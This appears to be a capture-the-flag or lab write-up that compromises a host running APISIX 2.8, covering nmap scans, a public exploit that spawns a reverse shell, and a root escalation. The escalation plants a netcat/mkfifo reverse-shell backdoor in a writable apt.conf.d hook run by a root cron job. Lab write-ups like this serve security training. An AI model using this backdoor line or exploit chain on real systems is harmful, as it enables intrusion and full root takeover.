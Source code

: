 First enumeration with nmap 

`nmap -p- --min-rate 10000 -oN fulltcp.txt -v -Pn <IP>`

```
# Nmap 7.93 scan initiated Tue Jan 10 09:53:56 2023 as: nmap -p- --min-rate 1000 -oN fulltcp.txt -v -Pn 192.168.108.220
Nmap scan report for 192.168.108.220
Host is up (0.15s latency).
Not shown: 65405 filtered tcp ports (no-response), 125 filtered tcp ports (host-unreach)
PORT      STATE  SERVICE
22/tcp    open   ssh
80/tcp    open   http
3306/tcp  open   mysql
43500/tcp open   unknown

Read data files from: /usr/bin/../share/nmap
# Nmap done at Tue Jan 10 09:56:07 2023 -- 1 IP address (1 host up) scanned in 131.30 seconds
```

now we know what ports are open, let's run default nmap scripts to know what services are running on those ports.

`nmap -sC -sV -oN normal.tcp -p 22,80,3306,43500 -Pn <IP>`

```
# Nmap 7.93 scan initiated Tue Jan 10 09:58:01 2023 as: nmap -sC -sV -oN normal.tcp -p 22,80,3306,43500 -Pn 192.168.108.220
Nmap scan report for 192.168.108.220
Host is up (0.14s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 62361a5cd3e37be170f8a3b31c4c2438 (RSA)
|   256 ee25fc236605c0c1ec47c6bb00c74f53 (ECDSA)
|_  256 835c51ac32e53a217cf6c2cd936858d8 (ED25519)
80/tcp    open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Upright
|_http-server-header: nginx/1.18.0 (Ubuntu)
3306/tcp  open  mysql   MySQL (unauthorized)
43500/tcp open  http    OpenResty web app server
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
|_http-server-header: APISIX/2.8
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jan 10 09:58:20 2023 -- 1 IP address (1 host up) scanned in 19.61 seconds
```

cool we got to know what services are running on those ports. let's start enumeration with port 80 (http).

![image](https://user-images.githubusercontent.com/87468669/211518834-3cc7683e-6328-4925-9f4d-0440430bb26d.png)

We discover a webserver running on port 80. After opening it in a browser, we are directed to a homepage containing pictures and about. after much playing around, got nothing. let move to the next port 43500 (http).

![image](https://user-images.githubusercontent.com/87468669/211518967-9ecc2afd-2c9e-4889-9aa9-2db8fc70884b.png)

after opening the it on a browser, i got an error message `{"error_msg":"404 Route Not Found"}` back to the nmap scan result we can see the header of the web service `APISIX/2.8`. let's look for an exploit.

![image](https://user-images.githubusercontent.com/87468669/211519013-7f958518-fd53-47d5-8a26-f77208fdbd9a.png)

found an exploit on searchsploit `multiple/remote/50829.py` , so what this exploit does it injectes  malicious api keys to the header of the api and spawn a reverse shell for us.

![image](https://user-images.githubusercontent.com/87468669/211519096-92119a48-f644-4a81-9634-7f2a18aafa6b.png)

ran the exploit, fired ncat listener.

![image](https://user-images.githubusercontent.com/87468669/211519165-edcb6d28-dd34-4472-a826-39d3074849ee.png)

Boom we are in as user `franklin` stablized the shell.

## Privilege Escalation

![image](https://user-images.githubusercontent.com/87468669/211537418-c3baf6bc-92c0-4e60-ab54-637e1e53e59b.png)

![image](https://user-images.githubusercontent.com/87468669/211537602-650b1e8e-4571-40c9-aa96-93a4c8e60646.png)

running linpeas, i saw cronjobs running as root, and also the `/etc/apt/apt.conf.d` directory is writable, guess that's our way in. who know but let's find out.😉 

## Exploiting cronjob

Let’s exploit apt-get service by abusing cron job as we all know cron job run as root. Suppose we had access to the targeted system locally and want the root user rights to enhanced limited shell access.
And we know apt.conf.d file has full permission as said above (You can also manually check to ensure the writable directory using find command) in the lab setup. Therefore, we will create a malicious file inside apt.conf.d by injecting netcat reverse backdoor:

```
echo 'apt::Update::Pre-Invoke {"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.49.108 22 >/tmp/f"};' > pwn
```

![image](https://user-images.githubusercontent.com/87468669/211539062-5f79539e-ac88-4525-94f9-4e6f6b440cd5.png)

Start the netcat listener to access the reverse connection of the host machine and wait for 2 minutes to obtain the privilege shell since apt-get update task is scheduled to update the packages every time, after minute through crontab that runs as root and it runs our netcat backdoor pwn to get reverse connections

![image](https://user-images.githubusercontent.com/87468669/211540483-3a99a95e-a6ec-44bc-a5dc-de4951880bb4.png)

and we got root!!!😎

